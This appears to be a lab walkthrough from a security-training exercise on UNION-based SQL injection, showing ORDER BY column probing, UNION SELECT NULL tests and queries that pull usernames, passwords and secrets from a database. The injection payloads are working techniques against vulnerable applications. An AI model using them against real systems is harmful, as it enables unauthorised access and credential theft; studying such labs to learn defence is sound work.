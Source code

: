 ```sql
SELECT name, price FROM products WHERE category = 'Electronics';
```

### 💥 Step 1: Determine Number of Columns with ORDER BY

```sql
SELECT name, price FROM products WHERE category = 'Electronics' ORDER BY 1-- 
SELECT name, price FROM products WHERE category = 'Electronics' ORDER BY 2-- 
SELECT name, price FROM products WHERE category = 'Electronics' ORDER BY 3-- 
```

➡️ When you get an error at `ORDER BY 3`, you know the original query returns **2 columns**.



### 💥 Step 2: Try UNION with NULLs

```sql
SELECT name, price FROM products WHERE category = 'Electronics' UNION SELECT NULL, NULL-- 
SELECT name, price FROM products WHERE category = 'Electronics' UNION SELECT NULL, 'test'-- 
```

✅ If the page shows `'test'`, you've found a working column!



### 💥 Step 3: Extract Hidden Data

Now inject real data:

#### Get usernames and passwords:
```sql
SELECT name, price FROM products WHERE category = 'Electronics'
UNION
SELECT username, password FROM users--
```

#### Get secrets:
```sql
SELECT name, price FROM products WHERE category = 'Electronics'
UNION
SELECT secret_name, secret_value FROM secrets--
```


## 🧪 Lab Walkthrough: SQL Injection UNION Attack — Determining Number of Columns

> **Lab Title:** SQL injection UNION attack, determining the number of columns returned by the query  
> **Difficulty:** Practitioner  
> **Status:** ✅ Solved  
> **Target:** Identify how many columns are returned from the original query using a UNION-based SQL injection.


